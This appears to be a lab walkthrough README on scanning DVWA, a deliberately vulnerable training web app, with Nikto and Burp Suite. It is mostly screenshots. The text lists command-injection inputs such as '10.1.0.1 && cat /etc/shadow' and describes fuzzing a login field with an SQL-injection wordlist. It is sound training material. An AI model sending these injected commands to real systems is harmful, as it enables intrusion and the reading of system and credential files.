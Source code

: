 # Nikto and Burp-Suite


# Scan a Web Server

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/6f04d67f-1e39-49ec-8c8e-d953fc6b8c0a)


![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/108b3145-d7e5-463d-8b32-27bf705202c8)



ni![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/b9f6d41a-8306-46d5-90d2-9a9f463c7765)


![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/19b1fe52-8f14-4529-9967-98e9cd56ce7f)

firefox /root/Downloads/dvwa.htm
![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/16fd0b67-6f21-43db-b17a-bd3eae4f7ba3)

# Configure an Interception Proxy

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/8a5d1490-0019-45f4-a5ad-2e825222b820)


![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/15f0fe69-3dd9-41d9-8b2b-e3237b20bd14)

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/0599c22b-8825-4883-b713-6bcc16205f8b)


# Inspect Session and Header Data

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/cd6a2551-3ffb-4894-9f10-c9d7d80bdd19)

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/6cf60464-5f6d-4de5-b33b-186cdd2cc18d)
![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/862573f0-a72e-45d6-a8c6-1f2781ccad9a)

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/bf46bfbe-2583-4dda-b0e9-d8892180c6b6)


You can also see the information you submitted via the browser.


Credentials and session information must be protected by encryption when they are transmitted over the network. The server should be configured with HTTPS and insist on a secure connection for the login page.
![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/f737ebf1-378d-4d28-aaed-02df5d6151e0)


# Test Command Injection

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/930055f5-1c54-4a63-8919-d7941fbf652c)


The developer of this web app has decided to allow users to access a command in the native OS. Has the developer limited users to the ping command only though?

Submit each of the following command sequences and note which work:

ls

10.1.0.1 && ls

1 && ps -e

10.1.0.1 && ps -e

10.1.0.1 && netstat -tlnp

10.1.0.1 && cat /etc/passwd

10.1.0.1 && cat /etc/shadow

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/78b63cb8-676e-4258-9433-cc28877719ad)


![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/a355ecb2-31f7-44f7-b572-ee83703928f7)


![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/b321d1ac-85cd-4d9e-8c9b-a3034f67d818)

You should be able to deduce that the developer is checking for the presence of a well-formed IP address but has not prevented additional command strings being appended.


Note from the output of the netstat command and the inability to read "/etc/shadow" that you are not root but we can confirm with this final sequence of commands.

10.1.0.1 && whoami

10.1.0.1 && getent passwd 0

10.1.0.1 && getent group root

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/1fcd003f-795e-421f-abcd-b994fd24acc9)


![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/9fc76fc6-7a53-4743-b63e-3122fcc31e79)


# Submit Fuzzed Input

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/96503022-0ea3-4d31-b277-95238fe501a6)


![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/ad10f6ab-2234-4265-9df0-59d147386f9f)

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/2c919474-cc2d-470f-a4a1-08b8bd5ba3ca)

Click the Payloads tab. Click the Load button then browse to select /usr/share/wordlists/wfuzz/injections/SQL.txt

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/e79971ae-746e-4d6c-a5ff-63f329fffccc)

Click the Start Attack button. Click OK to confirm the prompt.

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/dd909bed-f986-463b-b5d6-3dbd7a8b8356)

Sort the output by the Length column and look for a response larger than 4868 bytes.

You should find some using the OR keyword have returned a number of rows. As with the command injection, this response tells us that the SQL statement being executed by the web app code can be modified by what we enter into the input box.

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/529cb93b-d522-4358-a638-8d71ec3bb231)

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/aab5c1c7-6265-433f-b6b7-cad00946e671)

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/0e436e02-bc36-4acc-b9a9-97a2c3b3d482)
